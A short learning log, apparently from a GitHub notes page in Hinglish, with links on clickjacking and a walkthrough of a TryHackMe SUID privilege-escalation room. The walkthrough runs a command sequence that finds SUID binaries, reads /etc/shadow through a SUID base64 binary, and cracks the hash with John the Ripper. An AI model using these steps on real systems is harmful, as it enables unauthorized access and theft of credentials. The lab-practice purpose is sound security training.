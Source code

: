 🎯 Day 10 Task


✅ Clickjacking 


https://www.youtube.com/watch?v=Unu41TIk8CY

✅ Poc


https://www.youtube.com/watch?v=rz2XmteeFMo


✅ Writeup


https://medium.com/@raushanraj_65039/google-clickjacking-6a04132b918a


https://hackerone.com/reports/299009


🔁 TryHackMe Room


➡️ Working on Linux PrivEsc


✅ Completed Task 7 Privilege Escalation SUID


😒 I Saw a Walkthrough bcoz this is my 1st PrivEsc 

Some Tips: 


**cat /etc/passwd** me se user ka naam mila (1st answer)


Command for listing the binaries file which has SUID & SGID bits 


**find / -type f -perm -04000 -ls 2>/dev/null**


Har 1 Binary ko gtfobins me dekha koi SUID ke saath exploit hai kya **base64** mila 


Fir **LFILE=/etc/shadow**


**/usr/bin/base64 “$LFILE” | base64 –decode** : karke passwd ka hash nikala & then Hash ko ek file me save kiya **hash.txt**


**john hash.txt --show** : mil gaya passwd


**su user2 & passwd**


**cd home/ubuntu**


**cat flag3.txt** but permission denied then 


Then try **LFILE=/home/ubuntu/flag3.txt**


**/usr/bin/base64 “$LFILE” | base64 –decode**


**cat flag3.txt** & got flag :)



